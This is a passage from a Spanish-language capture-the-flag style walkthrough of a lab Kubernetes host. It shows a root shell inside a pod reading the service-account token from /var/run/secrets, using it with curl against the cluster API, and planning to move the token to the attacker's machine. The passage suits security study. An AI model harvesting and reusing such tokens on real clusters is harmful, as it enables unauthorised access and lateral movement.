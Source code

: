 Validando si tenemos los archivos necesarios vemos que si:

```bash
root@webapp-deployment-5d764566f4-mbprj:/var/run/secrets/kubernetes.io/serviceaccount$ ls
ca.crt  namespace  token
```

---

## Jugando con la <u>API</u> y con <u>kubectl</u> [📌](#expl-webapp-api-kubectl) {#expl-webapp-api-kubectl}

Así que generemos esas variables e intentemos de nuevo usar `cURL`:

```bash
root@webapp-deployment-5d764566f4-mbprj:~$ APISERVER=https://10.96.0.1:443
root@webapp-deployment-5d764566f4-mbprj:~$ SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
root@webapp-deployment-5d764566f4-mbprj:~$ TOKEN=$(cat ${SERVICEACCOUNT}/token)
root@webapp-deployment-5d764566f4-mbprj:~$ CACERT=${SERVICEACCOUNT}/ca.crt
```

Intentamos la petición hacia la **API**:

```bash
root@webapp-deployment-5d764566f4-mbprj:/$ curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

```json
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "10.10.10.235:8443"
    }
  ]
}
```

Bien, peeeeeeeeeeeeerfecto.

Vemos que externamente la API esta en el puerto **8443**, por lo que podemos asignar las mismas variables (moviéndonos el archivo `token` y `cacert`) en nuestra máquina y debería funcionar (:

Ya que nos podemos comunicar con la **API** empezaríamos a buscar cositas y ver como aprovecharnos de ellas...

* [Conceptos y arquitectura de **Kubernetes**](https://book.hacktricks.xyz/pentesting/pentesting-kubernetes#architecture).

...

En [este post](https://www.elladodelmal.com/2019/01/hacking-kubernetes-auditoria-de.html) usan una herramienta llamada [Kube-Hunter](https://github.com/aquasecurity/kube-hunter) que se encarga de encontrar posibles vulnerabilidades en **Kubernetes**, descargándola, moviéndola a la máquina y ejecutando solo nos muestra una vulnerabilidad:
